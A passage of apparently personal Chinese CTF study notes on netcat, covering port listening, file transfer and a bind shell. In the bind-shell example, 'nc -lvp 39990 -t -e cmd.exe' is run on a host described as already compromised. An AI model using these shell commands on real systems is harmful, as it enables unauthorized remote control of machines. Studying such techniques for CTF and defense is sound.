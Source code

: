 **服务器端**

```
nc -lvp 39990 #监听39990端口 -l 监听  -v 显示详细信息  -p 指定端口
```

**客户端**

```shell
nc -nv 39.***.***.*** 39990 #连接到服务器的39990端口 -n 以数字的形式显示 -v显示详信息
```

![image-20210501114205551](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501114205551.png) ![image-20210501114312206](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501114312206.png)

#### 文件传输

我们可以利用nc往客户端传送文件

**服务器端**：

```shell
nc -vlp 39990 < a.txt
```

**客户端**：

```
nc -nv 39.***.***.*** 39990 > a.txt
```

![image-20210501115413602](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501115413602.png) ![image-20210501115531080](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501115531080.png)

![image-20210501115505312](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501115505312.png)

#### 反弹shell

> **正向连接，意思就是我们主动连接肉鸡**
>
> 假如我们入侵到了一台主机上，我们可以通过执行以下命令将该主机的cmd(shell)权限弹到39990端口上

**肉鸡**

```
nc -lvp 39990 -t -e cmd.exe
```

然后我们的主机访问该肉鸡的39990端口

**我们的主机**

```shell
nc -nv 39.***.***.*** 39990
```

![image-20210501120711457](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501120711457.png)

![image-20210501120755104](https://c/Users/Administrator/Desktop/md%E7%AC%94%E8%AE%B0%E8%B5%84%E6%96%99/CTF-WEB%E7%AF%87.assets/image-20210501120755104.png)

> 反向连接，意思就是我们监听端口，然后肉鸡主动连接到我们的主机
